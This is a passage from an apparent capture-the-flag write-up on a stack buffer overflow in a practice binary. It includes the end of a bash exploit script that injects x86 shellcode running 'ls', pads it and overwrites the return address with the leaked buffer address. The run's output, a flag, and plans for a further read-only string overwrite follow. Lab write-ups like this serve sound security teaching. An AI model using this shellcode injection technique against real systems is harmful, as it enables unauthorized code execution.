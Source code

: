 ```bash
done
echo "As hex chars (little endian): $hex_addr"

# Build the string we need
# The code we want to execute plus, some filler
# and the address of the buffer as the return
# address
send_str=$(python -c 'print("\x31\xc0\x50\x68\x2f\x2f\x6c\x73\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x08\xfe\xc0\xfe\xc0\xfe\xc0\xcd\x80\xb0\x01\x31\xdb\xcd\x80" + "A"*26)')
send_str=$send_str$(python -c "print('$hex_addr')")

# Send the string
echo $send_str > inp.txt
echo $send_str >&3

# Get the result
cat <&3

# Close the socket
exec 3<&-
```
The code has 37 characters in it, so we add an extra 26 to make up the 63 we need. Then we add the address of the buffer as the return address. This initial code is our `ls` code, so the output from running this script is:
```
> ./hack_stack0pt2.sh 
Found: Debug info: Address of input buffer = 0xff8c084d
Extracted: ff8c084d
As hex chars (little endian): \x4d\x08\x8c\xff
Enter the name you used to purchase this program: Thank you for purchasing Hackersoft Powersploit!
Here is your first flag: flag{<flag from stack0pt1 was here>}

flag1.txt
flag2.txt
stack0
```
So we could just add our `cat` code and see the contents of the `flag2.txt` file, but let's try something different. Let's see if we can change the `flagfile` `const char*` string from `flag1.txt` to `flag2.txt` and then call `giveFlag()` to get the contents. I don't know if this is possible as the string is in a data segment marked as read-only, but let's try. It may depend on how the code was compiled.

First we find the location of the `flagfile` string within the executable:

![Flagfile in memory](location_of_flagfile.png)

We can see that it's at `0x08048860`. Note that the `1` we want to change to a `2` will actually be at `0x08048864`. 
